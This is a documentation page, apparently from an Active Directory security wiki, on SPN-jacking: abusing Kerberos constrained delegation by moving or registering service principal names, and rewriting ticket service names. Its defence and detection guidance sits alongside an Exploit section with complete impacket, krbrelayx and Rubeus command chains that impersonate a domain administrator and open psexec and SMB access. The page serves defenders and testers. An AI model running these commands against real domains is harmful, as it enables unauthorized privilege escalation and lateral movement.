

---
---

# SPN-jacking

Privilege escalation by moving Service Principal Names between accounts.

SPN-jacking exploits the fact that Kerberos constrained delegation targets are specified as
**SPNs** (in `msDS-AllowedToDelegateTo`), and SPNs can be moved between AD accounts by anyone
with write access to the `servicePrincipalName` attribute. By moving an SPN from its legitimate
account to one the attacker controls, the attacker redirects the delegation -- the KDC encrypts
the resulting S4U2Proxy ticket with the **new** account's key, giving the attacker a service
ticket they can decrypt and use.

For S4U protocol mechanics, see [S4U Extensions](../../protocol/s4u.md). For constrained
delegation background, see [Delegation](../../protocol/delegation.md#constrained-delegation-s4u).

---

## How It Works

### Background: How Constrained Delegation Resolves Targets

When a service performs [S4U2Proxy](../../protocol/s4u.md#s4u2proxy-service-for-user-to-proxy),
the KDC receives the target SPN (e.g., `CIFS/serverB.corp.local`) and verifies that it appears
in the requesting service's `msDS-AllowedToDelegateTo` attribute. If it does, the KDC looks
up which account currently owns that SPN in Active Directory, encrypts the service ticket with
that account's key, and returns it.

The critical detail: the KDC resolves the SPN to an account **at request time**. If the SPN
has been moved to a different account since the constrained delegation was configured, the KDC
encrypts the ticket with the **new** account's key.

### The Attack

An attacker who controls an SPN-bearing account with constrained delegation configured
(`msDS-AllowedToDelegateTo` contains a target SPN) can redirect delegation to any account they
can write the SPN to:

```
Constrained Delegation Configuration:
  ServerA's msDS-AllowedToDelegateTo = ["CIFS/serverB.corp.local"]

Normal flow:
  ServerA -> S4U2Proxy for CIFS/serverB -> KDC encrypts with ServerB's key

After SPN-jacking:
  Attacker moves CIFS/serverB SPN from ServerB to ServerC
  ServerA -> S4U2Proxy for CIFS/serverB -> KDC encrypts with ServerC's key
```

The attacker now has a service ticket for `CIFS/serverB` encrypted with ServerC's key. If the
attacker controls ServerC (or knows its key), they can decrypt the ticket and have a valid
service ticket impersonating the target user -- but encrypted for a service the attacker controls.

### Two Variants

**Ghost SPN-jacking:**

The SPN listed in `msDS-AllowedToDelegateTo` does not currently exist on any account. This can
happen when:

- The original service was decommissioned but the delegation configuration was not cleaned up
- The SPN was a typo or references a deleted account
- The SPN was configured proactively for a service that was never deployed

The attacker simply registers the orphaned SPN on an account they control. No need to remove it
from another account.

**Live SPN-jacking:**

The SPN exists on a legitimate SPN-bearing account. The attacker must:

1. **Remove** the SPN from the legitimate account (requires write access to that account's
   `servicePrincipalName` attribute)
2. **Add** the SPN to an account the attacker controls

This is more disruptive (the legitimate service loses its SPN) and requires write access to
two accounts.

### SPN Substitution (sname Modification)

A related technique that does not require moving SPNs: the `sname` field in a Kerberos service
ticket is **not protected** by the PAC signature. After obtaining a ticket via S4U2Proxy for
one SPN (e.g., `HTTP/serverB`), the attacker can rewrite the `sname` to target a different
service class on the same host (e.g., `CIFS/serverB`). Both SPNs resolve to the same machine
account, so the same key decrypts both.

This means constrained delegation to `HTTP/serverB` effectively grants access to `CIFS/serverB`,
`LDAP/serverB`, `HOST/serverB`, and every other SPN on the same account.



---

## Defend

### Monitor SPN Changes (Event 5136)

Event 5136 (directory service object modification) logs changes to attributes including
`servicePrincipalName`. Alert on:

- SPNs being added to accounts that should not have them
- SPNs being removed from legitimate SPN-bearing accounts
- SPNs appearing on newly created computer accounts

```text
index=security EventCode=5136 AttributeLDAPDisplayName="servicePrincipalName"
| stats count by ObjectDN, OperationType, AttributeValue, SubjectUserName
```

### Restrict Write Access to servicePrincipalName

Audit which accounts have write access to the `servicePrincipalName` attribute across AD:

- Remove unnecessary `GenericAll`, `GenericWrite`, and `WriteProperty` permissions on computer
  and user objects
- Use the `WriteSPN` edge in BloodHound to identify risky paths

### Audit msDS-AllowedToDelegateTo Regularly

Identify constrained delegation configurations and verify that the target SPNs still exist on
their expected accounts:

```powershell title="Audit constrained delegation targets and identify orphaned SPNs"
Get-ADObject -Filter 'msDS-AllowedToDelegateTo -like "*"' `
  -Properties msDS-AllowedToDelegateTo |
  ForEach-Object {
    $obj = $_
    $_.('msDS-AllowedToDelegateTo') | ForEach-Object {
      $spn = $_
      $owner = Get-ADObject -Filter "servicePrincipalName -eq '$spn'" -Properties Name
      [PSCustomObject]@{
        DelegatingAccount = $obj.Name
        TargetSPN = $spn
        SPNOwner = if ($owner) { $owner.Name } else { "ORPHANED" }
      }
    }
  }
```

Any SPN marked as `ORPHANED` is vulnerable to ghost SPN-jacking.

### Clean Up Stale Delegation Configurations

When decommissioning services, remove the corresponding SPNs from `msDS-AllowedToDelegateTo`
on any accounts that were configured to delegate to them. Orphaned SPNs in delegation
configurations are a standing vulnerability.

### Set ms-DS-MachineAccountQuota to 0

Prevent unprivileged users from creating computer accounts that could be used as SPN-jacking
targets:

```powershell
Set-ADDomain -Identity CORP.LOCAL -Replace @{"ms-DS-MachineAccountQuota" = 0}
```

---

## Detect

### Event 5136: SPN Attribute Changes

The primary detection signal. Any change to `servicePrincipalName` should be reviewed:

| Operation | Meaning |
|-----------|---------|
| Value added | SPN registered on an account -- expected for new services, suspicious for existing accounts |
| Value deleted | SPN removed from an account -- may indicate live SPN-jacking |
| Value added on computer account created by non-admin | Strong indicator of SPN-jacking setup |

### Orphaned SPN Monitoring

Periodically scan `msDS-AllowedToDelegateTo` values across the domain and verify each SPN
resolves to a valid account. Alert when SPNs become orphaned.

### S4U2Proxy Activity After SPN Changes

Correlate Event 5136 (SPN change) with Event 4769 (service ticket request, particularly with
`Transited Services` populated). If an SPN change is immediately followed by S4U2Proxy
delegation activity targeting that SPN, this is a strong indicator of SPN-jacking.

### Unexpected SPNs on Accounts

Monitor for SPNs appearing on accounts where they do not belong:

- Service-class SPNs (e.g., `CIFS/`, `HTTP/`, `MSSQLSvc/`) on accounts that are not known
  to host those services
- SPNs containing hostnames of other servers appearing on unrelated accounts

---

## Exploit

### Ghost SPN-jacking

When the target SPN in `msDS-AllowedToDelegateTo` is not registered on any account:

```bash title="Ghost SPN-jacking: register orphaned SPN, then S4U2Proxy to impersonate administrator"
# 1. Verify the SPN is orphaned
findDelegation.py CORP.LOCAL/jsmith:password -dc-ip 10.0.0.1

# 2. Register the orphaned SPN on an account you control
addspn.py -t ServerC$ -s CIFS/serverB.corp.local \
  -u CORP.LOCAL/jsmith -p password dc01.corp.local

# 3. Perform S4U2Proxy delegation
getST.py -spn CIFS/serverB.corp.local -impersonate administrator \
  CORP.LOCAL/serverA$:ServerAPassword

# 4. Use the ticket
export KRB5CCNAME=administrator@CIFS_serverB.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP.LOCAL/administrator@serverC.corp.local
```

### Live SPN-jacking

When the target SPN exists on a legitimate account:

```bash title="Live SPN-jacking: move SPN to attacker-controlled account, then S4U2Proxy"
# 1. Remove the SPN from the legitimate account (requires WriteSPN on ServerB)
addspn.py -t ServerB$ -r CIFS/serverB.corp.local \
  -u CORP.LOCAL/jsmith -p password dc01.corp.local

# 2. Add the SPN to an account you control
addspn.py -t ServerC$ -s CIFS/serverB.corp.local \
  -u CORP.LOCAL/jsmith -p password dc01.corp.local

# 3. S4U2Proxy delegation (same as ghost variant)
getST.py -spn CIFS/serverB.corp.local -impersonate administrator \
  CORP.LOCAL/serverA$:ServerAPassword
```

### SPN Substitution (sname Rewrite)

After obtaining a ticket via S4U2Proxy, modify the service class without moving SPNs:

```bash
# Rewrite HTTP/serverB to CIFS/serverB in the ticket
tgssub.py -in ticket.ccache -out newticket.ccache -altservice cifs/serverB.corp.local

# Use the rewritten ticket
export KRB5CCNAME=newticket.ccache
smbclient //serverB.corp.local/C$ -k --no-pass
```

On Windows with Rubeus:

```powershell
# S4U chain with SPN substitution in one step
Rubeus.exe s4u /user:serverA$ /rc4:<hash> /impersonateuser:administrator `
  /msdsspn:HTTP/serverB.corp.local /altservice:CIFS /ptt

# Or rewrite an existing ticket
Rubeus.exe tgssub /altservice:cifs/serverB.corp.local /ticket:<base64>
```

---

## Tools

!!! info "kerbwolf does not implement SPN-jacking"
    SPN-jacking requires AD object manipulation and S4U protocol extensions. kerbwolf focuses on
    the core Kerberos authentication exchanges.

| Tool | Command | Purpose |
|---|---|---|
| krbrelayx `addspn.py` | `addspn.py -t target$ -s SPN -u user -p pass dc` | Add or remove SPNs from AD objects |
| impacket `findDelegation.py` | `findDelegation.py DOMAIN/user:pass` | Enumerate delegation configurations and identify target SPNs |
| impacket `getST.py` | `getST.py -spn SPN -impersonate user DOMAIN/svc$:pass` | Perform S4U2Self + S4U2Proxy chain |
| impacket `tgssub.py` | `tgssub.py -in ticket.ccache -out new.ccache -altservice cifs/host` | Rewrite the `sname` field in an existing ticket |
| Rubeus | `s4u /msdsspn:SPN /altservice:CIFS /impersonateuser:admin` | Full S4U chain with SPN substitution |
| PowerView | `Set-DomainObject -Identity target$ -Set @{ServicePrincipalName='SPN'}` | Manipulate SPNs via PowerShell |
